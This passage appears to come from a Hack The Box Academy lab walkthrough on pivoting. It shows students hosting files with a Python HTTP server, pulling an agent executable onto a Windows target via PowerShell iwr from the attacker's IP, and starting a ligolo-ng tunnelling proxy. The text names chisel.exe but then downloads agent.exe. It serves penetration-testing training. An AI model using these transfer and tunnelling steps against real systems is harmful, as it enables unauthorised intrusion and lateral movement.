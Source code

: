 ```
README.md
proxy

┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ chmod +x proxy
```

Students will start a Python HTTP server to transfer the `chisel.exe` onto the target machine:

Code: shell

```shell
python3 -m http.server
```

```
┌─[htb-ac-8414@htb-qm41uzp2hn]─[~]
└──╼ $ python3 -m http.server

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Subsequently, students will return to the RDP session and the previously spawned `PowerShell` window, where they will proceed to download the executable:

Code: powershell

```powershell
iwr -uri http://PWNIP:8000/agent.exe -o agent.exe
```

```
PS C:\Users\helen> iwr -uri http://10.10.15.174:8000/agent.exe -o agent.exe
```

Students will return to their workstations, they can terminate the Python HTTP server, and they will proceed to start `ligolo`'s proxy:

Code: shell

```shell
./proxy -selfcert
```

```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ ./proxy -selfcert

WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
WARN[0000] Using self-signed certificates               
ERRO[0000] Certificate cache error: acme/autocert: certificate cache miss, returning a new certificate 
WARN[0000] TLS Certificate fingerprint for ligolo is: A910475F1FBB2F071C47BC3CCF0685188A816C82CB654A25505479E67071293B 
INFO[0000] Listening on 0.0.0.0:11601                   
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ \`/ __ \/ / __ \______/ __ \/ __ \`/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: 0.6.2

ligolo-ng » 
```
